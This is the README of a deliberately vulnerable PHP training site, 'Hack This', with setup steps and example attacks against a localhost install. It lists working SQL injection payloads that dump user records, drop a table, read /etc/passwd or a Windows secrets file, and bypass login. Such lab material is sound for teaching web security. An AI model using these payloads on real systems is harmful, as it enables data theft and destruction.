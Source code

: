 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `consts.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/index.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/index.php?username=leocadio'%20or%20''='`
    - `http://localhost/index.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/index.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
    - Windows: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('C:\\secrets.txt'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.
